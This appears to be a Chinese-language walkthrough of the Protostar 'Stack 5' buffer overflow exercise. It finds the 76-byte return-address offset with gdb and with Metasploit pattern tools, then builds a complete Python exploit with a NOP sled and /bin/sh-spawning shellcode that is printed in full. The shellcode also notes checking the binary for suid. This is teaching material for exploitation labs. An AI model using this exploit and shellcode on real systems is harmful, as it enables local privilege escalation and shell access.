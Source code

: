 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

方法2：快速定位漏洞触发的位置并写出exploit

第一种方法是手工定位，计算填充的字节数和eip返回地址。下面这种 方法借助于定位脚本快速定位。

思路

1）判断是否存在漏洞，先给buffer填充100个a看看是否崩溃。

![](/png/18.png)

显然，出现了熟悉的段错误。通常，我们会调试.coredump的方法找到出错的位置。现在我们用最基础最快速的方法来定位。（调试dump）下一种方法给出。

2）用kali metasploit环境下的pattern\__create.rb脚本来生成要填充的标志性的字符串，再用pattern_\_offset来定位漏洞触发的位置。

![](/png/19.png)

3\)用生成的长度为100的字符串进行定位溢出点

![](/png/20.png)

程序在0x63413563处崩溃。用pattern\_offset.py定位溢出位置，找到距离buffer起始位置的偏移。

![](/png/21.png)

在偏移量76处，程序崩溃。这跟手工定位的位置是一样的。

![](/png/22.png)

4）若想用这个stack5二进制文件获取shell,需要确定这个二进制文件是否具有suid权限。可以用find命令实现。

![](/png/23.png)

小结：就是计算填充缓冲区的大小有两种方法：

第一种：手工 （利用gdb 定位eip地址---buff起始地址\(print $esp查看之后buff起始地址）

第二种：借助于metasploit模块里的脚本定位偏移量。

5）漏洞利用代码编写

技巧：利用NOP空操作模块可以确保漏洞利用代码不会失败。因为我们无法始终指向正确的地址，所以利用空指令来指向他们，直到shellcode入口位置。

76个a + eip\(覆盖为要跳转到的地址,可以是下一条指令的地址\) + NOP+shellcode

用python编写exploit.py

1\)导入struct模块

import struct

2\)填充字符a

pad='a'\*76

3\)接下来是漏洞触发 覆盖eip的地方，把eip地址覆盖成shellcode的入口地址，也可以是下一条要执行的指令的地址。原始eip的地址是0xbffffcbc，下一条指令的地址是0xbffffcbc+4= 0xbffffcc0

EIP = struct.pack\("I", 0xbffffcc0\)

紧跟着的是NOP 和 shellcode

shellcode可以采用exploit-db 上一个重新开启一个/bin/sh 终端。

char sc\[\] =

"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"

"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"

"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

最后形成的利用代码如下：

![](/png/24.png)

执行后：



Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

[https://0xrick.github.io/binary-exploitation/bof5/](https://0xrick.github.io/binary-exploitation/bof5/)

[https://www.exploit-db.com/exploits/13357](https://www.exploit-db.com/exploits/13357)

